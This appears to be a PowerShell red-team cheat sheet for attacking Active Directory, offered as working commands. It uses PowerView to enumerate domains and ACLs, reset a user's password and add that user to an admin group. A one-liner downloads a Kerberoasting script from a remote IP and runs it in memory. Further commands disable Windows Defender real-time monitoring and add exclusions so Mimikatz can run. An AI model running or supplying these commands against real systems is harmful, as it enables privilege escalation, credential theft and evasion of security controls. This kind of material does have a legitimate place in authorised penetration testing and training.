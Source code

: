 # Commands Cheat Sheet - PowerShell

## Table of content :

* [Powerview](#PowerView)
* [PowerUp](#PowerUp)
* [HostRecon](#Recon)
* [GetUsersSPNs](#GUS)
* [Disable AV and Exclude Mimikatz](#DisableAV)

### Powerview<a name="PowerView"></a>

```PowerShell
Get-DomainComputer -Unconstrained
Get-DomainUser -Domain sinhack.com
Get-DomainUser -Identity v0lk3n
Get-DomainTrust -API
Get-DomainForeignGroupMember -Domain dev.sinhack.com
ConvertFrom-SID S-1-5-21-1416213050-106196312-571527550-1107

#Parsing in Objectacl
Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}

# Change User Password Account using PowerView
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity V0lk3n -AccountPassword $UserPassword

# Add users to AD Groups
Add-DomainGroupMember -Identity 'ADMINS' -Members 'v0lk3n' -Rights all
```

### PowerUp<a name="PowerUp"></a>

```bash
Invoke-AllChecks
```

### HostRecon<a name="Recon"></a>

```PowerShell
Invoke-HostRecon
```

### GetUserSPNs<a name="GUS"></a>

```PowerShell
(new-object system.net.webclient).downloadstring('http://192.168.49.112:8080/GetUserSPNs.ps1') | iex
```

### Disable AV and Exclude Mimikatz<a name="DisableAV"></a>

1. Disable AV

```PowerShell
PS C:\Users\Administrator\Desktop> Set-MpPreference -DisableRealTimeMonitoring $true
Set-MpPreference -DisableRealTimeMonitoring $true

```

2. Add two rules to exclude mimikatz. One for exclude Desktop path, another to exclude "exe" extensions.

```powershell
PS C:\Users\Administrator\Desktop> Set-MpPreference -ExclusionPath \Users\Administrator\Desktop
Set-MpPreference -ExclusionPath \Users\Administrator\Desktop
PS C:\Users\Administrator\Desktop> Set-MpPreference -ExclusionPath C:\Users\Administrator\Desktop
et-MpPreference -ExclusionPath C:\Users\Administrator\Desktop
PS C:\Users\Administrator\Desktop> Set-MpPreference -ExclusionExtension exe
Set-MpPreference -ExclusionExtension exe
```